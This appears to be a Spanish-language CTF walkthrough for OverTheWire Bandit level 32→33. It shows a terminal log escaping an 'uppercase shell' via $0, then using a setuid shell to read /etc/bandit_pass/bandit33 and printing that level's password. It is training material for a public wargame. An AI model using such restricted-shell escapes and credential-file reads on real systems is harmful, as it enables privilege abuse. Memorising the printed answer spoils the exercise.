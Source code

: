 # LEVEL 32 → LEVEL 33
# Objetivo
After all this `git` stuff its time for another escape. Good luck!
# Datos de acceso al nivel
```
ssh bandit32@bandit.labs.overthewire.org -p 2220
```
# Solución
```
WELCOME TO THE UPPERCASE SHELL  
sh: 1: 3: not found  
>> ·a  
sh: 1: ·A: not found  
>> !1  
sh: 1: !1: not found  
>> "1  
sh: 2: Syntax error: Unterminated quoted string  
>> ·1  
sh: 1: ·1: not found  
>> $1  
>> $4  
>> $5  
>> $6  
>> &6  
sh: 1: Syntax error: "&" unexpected  
>> $8  
>> $0  
ls  
uppershell  
file uppershell  
uppershell: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e6a8ed571599ce2bfa8b77145dbfc4eb933c1477, not stripped  
whoami  
bandit33  
cat /etc/bandit_pass/bandit33  
c9c3199ddf4121b10cf581a98d51caee
```
# Notas Adicionales

# Referencias